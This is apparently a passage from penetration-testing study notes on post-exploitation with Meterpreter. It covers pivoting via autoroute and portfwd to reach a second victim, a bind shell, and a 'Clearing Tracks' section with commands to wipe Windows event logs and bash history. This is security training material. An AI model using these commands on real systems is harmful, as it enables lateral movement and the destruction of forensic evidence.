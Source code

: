 It’s easy to do pivoting using Meterpreter shell

```bash
run autoroute -s <CIDR notation of target's internal network>
```

You can’t check for the version using the auxiliary module by only enabling the IP route. If you wanna visible the port from ***victim2*** to you then you have to do port forwarding through ***victim1*** meterpreter session.

```bash
meterpreter> portfwd add -l 1080 -p 80 -r <victim2IP>
```
Now  simply do Nmap scan on your localhost port
```bash
nmap -sV -p 1080 localhost
```

Another thing is that you can’t use a reverse TCP connection to get the shell on the ***victim2.*** Use bind TCP shell.



<h1 id='C'>Clearing Tracks</h1>

You can use resource scripts that are generated by the persistence modules in order to remove the persistence service or any configuration done to maintain persistence on the target machine

```bash
#persistence modules also generate rc file for the cleanup
meterpreter> resource <rcFilePath>
```

Simply remove the Files that were transferred by you for exploitation or enumeration.

You can clear event logs of Windows but it’s not recommended because it clears all the logs of the target system not the selected one which is related to you.

```bash
meterpreter> clearev  #event log clear, NOT RECOMMENDED!
```

You can clear .bash_history to clear your tracks on LInux

```bash
history -c   #to clear
~/.bash_history  #Remove traces from here or link it to /dev/null
```